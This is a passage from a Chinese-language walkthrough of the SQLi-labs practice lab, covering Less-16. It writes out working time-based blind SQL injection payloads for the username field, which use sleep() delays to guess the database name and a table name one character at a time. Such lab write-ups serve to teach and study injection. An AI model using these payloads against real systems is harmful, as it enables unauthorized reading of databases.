 由于页面有延时，因此联合数据库名是"s..."。按照前面十几关的经验，得到的最终结果应该是<code>security</code>



或者注入如下语句也可，是同样的效果

~~~ shell
admin") and if(ascii(substr(database(),0,1))=115,1,sleep(5))#

admin") and if((select (substr(database(),1,1))="s") ,sleep(5), null)#
~~~



+ 爆联合数据表名

~~~ shell
admin") and if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e' ,sleep(5),null)#

......
~~~

![Less-16_7](./img/Less-16_7.PNG)

页面有延迟，说明联合数据表名的第一个字符是"e"



+ 爆破数据就不写了，都是一样的思路使用时间盲注，利用页面是否有延迟判断返回数据是否正确



###  Level-17  修改密码 
